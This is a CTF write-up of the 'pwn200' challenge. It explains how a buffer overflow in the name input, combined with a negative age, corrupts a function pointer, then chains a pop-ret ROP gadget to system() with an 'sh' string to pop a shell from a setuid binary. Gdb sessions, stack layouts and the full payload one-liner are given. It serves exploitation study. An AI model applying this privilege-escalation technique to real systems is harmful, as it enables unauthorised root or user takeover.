


- Solved by: makefu
Intro
First of all, this is a post-mortem solution for pwn200 as we failed to finish it within ctf time both because the challenge was offline alot of the time and that we were not experienced enough to find a solution.
The challenge was to elevate privileges on a remote server to a user which was able to read the file $HOME/flag . The folder also contained a file named pwn200 which had suid bit set for the user -> pop a shell by finding a vuln in this program.
Track the Vuln
Running the program looks like this:
$ ./pwn200
Name: Bob
Age: 10
Goodbye little boy
$ ./pwn200
Name: Khan
Age: -1
[1] 6141 segmentation fault ./pwn200
When supplying a negative age eax will not be updated in the function atExit
and the pointer will stay uninitialized.

The fgets which reads the name contains a buffer overflow which allows us to override exactly this pointer.

Trying it in gdb looks like this:
(gdb) br *0x8048670 # call eax
Breakpoint 1 at 0x8048670
(gdb) r
Starting program: /home/makefu/pwnium/200/pwn200
warning: Could not load shared library symbols for linux-gate.so.1.
Do you need "set solib-search-path" or "set sysroot"?
Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Breakpoint 1, 0x08048670 in atExit ()
(gdb) disass
Dump of assembler code for function atExit:
0x08048660 <+36>: cmp DWORD PTR [ebp+0x8],0x0
0x08048664 <+40>: jle 0x804866d <atExit+49>
0x08048666 <+42>: mov DWORD PTR [ebp-0xc],0x804860c
0x0804866d <+49>: mov eax,DWORD PTR [ebp-0xc]
=> 0x08048670 <+52>: call eax
0x08048672 <+54>: leave
0x08048673 <+55>: ret
End of assembler dump.
(gdb) i r eax
eax 0x41414141 1094795585
Prepare the stack for ROP
We cannot directly execute our name string as both ASLR and NX-Stack are enabled but there is a system call in a unused function called test:
(gdb) disassemble test
Dump of assembler code for function test:
0x08048694 <+0>: push ebp
0x08048695 <+1>: mov ebp,esp
0x08048697 <+3>: sub esp,0x8
0x0804869a <+6>: sub esp,0xc
0x0804869d <+9>: push 0x80487f3
0x080486a2 <+14>: call 0x8048430 <system@plt>
0x080486a7 <+19>: add esp,0x10
0x080486aa <+22>: leave
0x080486ab <+23>: ret
End of assembler dump.
Too bad we cannot directly prepare the stack with our provided text to supply a string which then can be executed.
To be clear: we currently only control eip, not the esp. ROP to the rescue!
This is how our stack must look like for a successful exploit:
| Address | Description |
|---|---|
| call system | <- esp |
| [command-string] | <- esp + 4 (first argument) |
We cannot call system directly because after the call as ebp+4 will be pointing to our provided jump address.
The ROP gadget i used is a simple 'pop-ret' which can be found with for example msfrop or ROPgadget in conjuction with a system call. POP-RET is at 0x080487a6.
By that we can prepare our input as an argument for the system call. As we have no shell command yet we will used 0x80487f3 - 'echo pwned' for testing.
Follow the Execution Flow
These tables show the stack after each ROP step.
Before call ROP
| Address | Description |
|---|---|
| [A*36] | BOF Filler |
| [AAAA] | BOF Filler |
0x080486a2 esp |
call system |
| 0x080487f3 | "echo hacked" |
| [BBBB] | Filler |
0x080487a6 eip |
pop ebx;ret |
After ret from pop-ret ROP Gadget
| Address | Description |
|---|---|
| [A*32] | BOF Filler |
| 0x08048672 | ret addr call-eax |
| 0x080486a2 | call system |
0x080487f3 esp |
"echo hacked" |
| [BBBB] | Filler |
| 0x080487a6 | pop ebx;ret |
After call system
| Address | Description |
|---|---|
| [A*32] | BOF Filler |
| 0x08048672 | ret addr call-eax |
0x080486a2 esp |
ret addr call-system |
0x080487f3 parm1 |
"echo hacked" |
| [BBBB] | Filler |
| 0x080487a6 | pop ebx;ret |
Quick Sidenote:
call addresspushes the return address($eip+sizeof(call)) onto the stack and executes the function at address.- ret pops the return address from the stack and executes the address
The payload generation and testing looks like this:
python2 -c 'print("A"*36+"\xa2\x86\x04\x08"+"\x01\x8c\x04\x08"+"BBBB"+ "\xa6\x87\x04\x08"+"CCCC"+"DDDD"+ "EEE\n" +"-1")' > in
gdb ./pwn200
(gdb) r < in
Starting program: ./pwn200 < in
hacked
Name: Age: [Inferior 1 (process 11968) exited normally]
Find the exec string
We need a string address for system argument which allows us to run whatever commands we want. Due to the fact aslr is enabled hitting our 36 bytes short buffer is kind of unlikely. Using environment variables with " "\*9001 +"/bin/sh" may give us a better chance to guess the address but is still pretty crude.
"sh" which is short and gives us full access may reside in the executable after being loaded in the memory so i gave it a shot with gdb:
(gdb) break main
Breakpoint 1 at 0x8048701A
(gdb) start
(gdb) info proc mappings
process 11324
Mapped address spaces:
Start Addr End Addr Size Offset objfile
0x8048000 0x8049000 0x1000 0x0 /home/makefu/pwnium/200/pwn200
0x8049000 0x804a000 0x1000 0x0 /home/makefu/pwnium/200/pwn200
0xf7564000 0xf7565000 0x1000 0x0
0xf7565000 0xf7720000 0x1bb000 0x0 /usr/lib32/libc-2.19.so
0xf7720000 0xf7723000 0x3000 0x1ba000 /usr/lib32/libc-2.19.so
0xf7723000 0xf7725000 0x2000 0x1bd000 /usr/lib32/libc-2.19.so
0xf7725000 0xf7727000 0x2000 0x0
0xf7757000 0xf7759000 0x2000 0x0
0xf7759000 0xf775a000 0x1000 0x0 [vdso]
0xf775a000 0xf777b000 0x21000 0x0 /usr/lib32/ld-2.19.so
0xf777b000 0xf777c000 0x1000 0x0
0xf777c000 0xf777d000 0x1000 0x21000 /usr/lib32/ld-2.19.so
0xf777d000 0xf777e000 0x1000 0x22000 /usr/lib32/ld-2.19.so
0xffeba000 0xffedb000 0x21000 0x0 [stack]
(gdb) find 0x08048000, +5000, "sh"
0x8048c01
1 pattern found.
Instead of 0x80487f3 we are now using 0x8048c01.
Putting it all together
# first pipe the shellcode, then use stdin
(python2 -c 'print("A"*36+"\xa2\x86\x04\x08"+"\x01\x8c\x04\x08"+"BBBB"+ "\xa6\x87\x04\x08"+"CCCC"+"DDDD"+ "EEE\n" +"-1")'; cat) | ./pwn200
ls /
bin dev krebs media root sbin sys usr var
boot etc home lib mnt proc run tmp
Cheers
To Team Action Kaktus on ctftime for making a writeup with a nonfunct solution, this made me try hard enough to finish it by myself.